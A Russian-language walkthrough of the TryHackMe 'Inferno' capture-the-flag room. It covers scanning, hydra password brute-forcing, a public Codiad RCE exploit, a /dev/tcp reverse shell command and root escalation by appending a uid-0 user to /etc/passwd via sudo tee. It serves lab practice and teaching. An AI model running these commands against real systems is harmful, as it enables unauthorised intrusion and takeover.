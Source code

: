 # Inferno

:white_check_mark:  [**Hydra**](#hydra)

:white_check_mark: [**Codiad**](#codiad)

:white_check_mark: [**Openssl**](#openssl)

:white_check_mark: [**Tee**](#tee)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV inferno.thm
```

```
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  tcpwrapped    syn-ack
22/tcp    open  ssh           syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBR1uDh8+UHIoUl3J5AJApSgrmxFtvWtauxjTLxH9B5s9E0SThz3fljXo7uSL+2hjphfHyqrdAxoCGQJgRn/o5xGDSpoSoORBIxv1LVaZJlt/eIEhjDP48NP9l/wTRki9zZl5sNVyyyy/lobAj6BYH+dU3g++2su9Wcl0wmFChG5B2Kjrd9VSr6TC0XJpGfQxu+xJy29XtoTzKEiZCoLz3mZT7UqwsSgk38aZjEMKP9QDc0oa5v4JmKy4ikaR90CAcey9uIq8YQtSj+US7hteruG/HLo1AmOn9U3JAsVTd4vI1kp+Uu2vWLaWWjhfPqvbKEV/fravKSPd0EQJmg1eJ
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKFhVdH50NAu45yKvSeeMqyvWl1aCZ1wyrHw2MzGY5DVosjZf/rUzrdDRS0u9QoIO4MpQAvEi7w7YG7zajosRN8=
|   256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAdzynTIlsSkYKaqfCAdSx5J2nfdoWFw1FcpKFIF8LRv
23/tcp    open  tcpwrapped    syn-ack
25/tcp    open  tcpwrapped    syn-ack
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http          syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
88/tcp    open  tcpwrapped    syn-ack
106/tcp   open  pop3pw?       syn-ack
110/tcp   open  tcpwrapped    syn-ack
389/tcp   open  tcpwrapped    syn-ack
464/tcp   open  tcpwrapped    syn-ack
636/tcp   open  tcpwrapped    syn-ack
777/tcp   open  tcpwrapped    syn-ack
783/tcp   open  tcpwrapped    syn-ack
808/tcp   open  ccproxy-http? syn-ack
873/tcp   open  tcpwrapped    syn-ack
1001/tcp  open  webpush?      syn-ack
1236/tcp  open  tcpwrapped    syn-ack
1300/tcp  open  tcpwrapped    syn-ack
2000/tcp  open  tcpwrapped    syn-ack
2003/tcp  open  tcpwrapped    syn-ack
2121/tcp  open  tcpwrapped    syn-ack
2601/tcp  open  tcpwrapped    syn-ack
2602/tcp  open  tcpwrapped    syn-ack
2604/tcp  open  tcpwrapped    syn-ack
2605/tcp  open  tcpwrapped    syn-ack
2607/tcp  open  tcpwrapped    syn-ack
2608/tcp  open  tcpwrapped    syn-ack
4224/tcp  open  tcpwrapped    syn-ack
5051/tcp  open  tcpwrapped    syn-ack
5432/tcp  open  tcpwrapped    syn-ack
5555/tcp  open  tcpwrapped    syn-ack
5666/tcp  open  tcpwrapped    syn-ack
6346/tcp  open  tcpwrapped    syn-ack
6566/tcp  open  tcpwrapped    syn-ack
6667/tcp  open  tcpwrapped    syn-ack
|_irc-info: Unable to open connection
8021/tcp  open  tcpwrapped    syn-ack
8081/tcp  open  tcpwrapped    syn-ack
|_mcafee-epo-agent: ePO Agent not found
8088/tcp  open  radan-http?   syn-ack
9418/tcp  open  tcpwrapped    syn-ack
10000/tcp open  tcpwrapped    syn-ack
10082/tcp open  tcpwrapped    syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **inferno.thm** выглядит так:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/1.png)

Сканируем директории командой:
```
gobuster dir -u http://inferno.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://inferno.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/20 16:00:18 Starting gobuster in directory enumeration mode
===============================================================
/inferno              (Status: 401) [Size: 458]
```

Перейдем в директорию **/inferno**. Появляется окно авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/2.png)

<a name="hydra"></a>

При помощи утилиты **hydra** попробует перебрать пароля для стандартных имен пользователей. Попробуем имя пользователя "admin"
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f inferno.thm http-get /inferno/ -t 64
```

```
[80][http-get] host: inferno.thm   login: admin   password: dante1
```

Вводим найденные учетные данные. Нас перекидывает на другую страницу авторизации. Попробуем те же данные(admin:dante1).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/3.png)

<a name="codiad"></a>

Получаем панель админа.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/4.png)

Попробуем найти в интернете эксплоит для **codiad**. Скачаем [эксплоит](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit) и проэксплуатируем.
```
python exploit.py http://admin:dante1@inferno.thm/inferno/ admin dante1 <Твой IP> <Порт> linux
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/5.png)

Для того, чтобы получить оболочку нужно использовать еще две команды, которые нам предлагает ввести эксплоит.
```
echo 'bash -c "bash -i >/dev/tcp/<Твой ip>/<Твой порт> 0>&1 2>&1"' | nc -lvnp <Твой порт>

nc -lvnp <(Твой порт) + 1>
```

Получаем оболочку, стабилизируем ее.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/6.png)

В домашней директории пользователя находит интересный файл **/home/dante/Downloads/.download.dat**. В нем лежит зашифрованный текст. Расшифруем его с помощью [Cyberchef](https://gchq.github.io/CyberChef/). Получим текст, в котором лежит пароль от пользователя.
```
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:V1rg1l10h3lpm3
```

<a name="tee"></a>

Подключаемся по shh. Посмотрим права пользователя командой **sudo -l**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/7.png)

```
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```

На [GTFOBins](https://gtfobins.github.io/gtfobins/tee/) найдем нужный эксплоит.

```
LFILE=file_to_write
echo DATA | sudo tee -a "$LFILE"
```

<a name="openssl"></a>

Модифицируем его. Для начала, создадим нового пользователя и впишем его в **/etc/passwd**.
```
openssl passwd -1 -salt toor toor

$1$toor$2SrtV0M1RHrAj9uQL5C7w/
```

Модифицированный эксплоит:
```
echo "toor:\$1\$toor\$2SrtV0M1RHrAj9uQL5C7w/:0:0:root:/root:/bin/bash" | sudo tee -a /etc/passwd
```

Заходим под нового пользователя.
```
su toor
```

Получаем флаг.
